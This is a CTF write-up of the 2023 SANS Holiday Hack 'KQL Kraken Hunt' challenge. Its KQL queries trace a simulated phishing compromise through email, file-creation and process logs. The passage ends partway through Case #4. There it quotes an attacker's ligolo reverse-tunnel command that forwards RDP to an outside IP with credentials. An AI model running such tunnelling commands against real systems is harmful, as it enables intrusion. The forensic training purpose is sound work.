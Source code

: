 # Writeup for The 2023 SANS Holiday Hack Challenge: A Holiday Odyssey \| Featuring 6: Geese A-Lei'ing!
## KQL Kraken Hunt
Difficulty: :christmas_tree::christmas_tree:  
Use Azure Data Explorer to [uncover misdeeds](https://detective.kusto.io/sans2023) in Santa's IT enterprise. Go to Film Noir Island and talk to Tangle Coalbox for more information.

### Hints
#### Outbound Connections
*From: Tangle Coalbox*
Do you need to find something that happened via a process? Pay attention to the ProcessEvents table!
#### KQL Tutorial
*From: Tangle Coalbox*
Once you get into the [Kusto trainer](https://detective.kusto.io/sans2023), click the blue Train me for the case button to get familiar with KQL.
#### File Creation
*From: Tangle Coalbox*
Looking for a file that was created on a victim system? Don't forget the FileCreationEvents table.

### Solution
#### Onboarding
*Question*: How many Craftperson Elf's are working from laptops? 

*Query*:
```kql
Employees 
| where role == "Craftsperson Elf" and hostname contains "LAPTOP"
| summarize count()
```

*Answer*: `25`

#### Case #1
*Question*: 
1) What is the email address of the employee who received this phishing email?
2) What is the email address that was used to send this spear phishing email?
3) What was the subject line used in the spear phishing email?

*Query*:
```kql
Email
| where link contains "http://madelvesnorthpole.org/published/search/MonthlyInvoiceForReindeerFood.docx"
| project recipient, sender, subject
```

*Answer*: 
| recipient | sender | subject |
| ------------------------------------------------ | ------------------ | -------------------------------- |
| alabaster_snowball@santaworkshopgeeseislands.org | cwombley@gmail.com | \[EXTERNAL\] Invoice foir reindeer food past due |

#### Case #2
*Question*: 
1) What is the role of our victim in the organization?
2) What is the hostname of the victim's machine?
3) What is the source IP linked to the victim?

*Query*:
```kql
Employees
| where email_addr == "alabaster_snowball@santaworkshopgeeseislands.org"
| project role, hostname, ip_addr
```

*Answer*: 
| role     | hostname     | ip_addr   | 
| -------- | ------------ | --------- |
| Head Elf | Y1US-DESKTOP | 10.10.0.4 |

#### Case #3
*Question*: 
1) What time did Alabaster click on the malicious link? Make sure to copy the exact timestamp from the logs!
2) What file is dropped to Alabaster's machine shortly after he downloads the malicious file?

*Query for question 1*:
```kql
OutboundNetworkEvents
| where src_ip == "10.10.0.4" and url contains "http://madelvesnorthpole.org/published/search/MonthlyInvoiceForReindeerFood.docx"
| project timestamp
```

*Answer for question 1*: `2023-12-02T10:12:42Z`

*Query for question 2*:
```kql
FileCreationEvents
| where hostname == "Y1US-DESKTOP" and timestamp > datetime("2023-12-02T10:12:42Z") and filename != "MonthlyInvoiceForReindeerFood.docx"
| limit 1
| project filename
```

*Answer for question 2*: `giftwrap.exe`

#### Case #4
*Question*: 
1) The attacker created an reverse tunnel connection with the compromised machine. What IP was the connection forwarded to?
2) What is the timestamp when the attackers enumerated network shares on the machine?
3) What was the hostname of the system the attacker moved laterally to?

*Query*:
```kql
ProcessEvents
| where hostname == "Y1US-DESKTOP" and timestamp > datetime("2023-12-02T10:12:42Z")
```

*Answer for question 1*:
This took a little manual analysis, eventually identifying the command:
```batch
cmd.exe "ligolo" --bind 0.0.0.0:1251 --forward 127.0.0.1:3389 --to 113.37.9.17:22 --username rednose --password falalalala --no-antispoof
```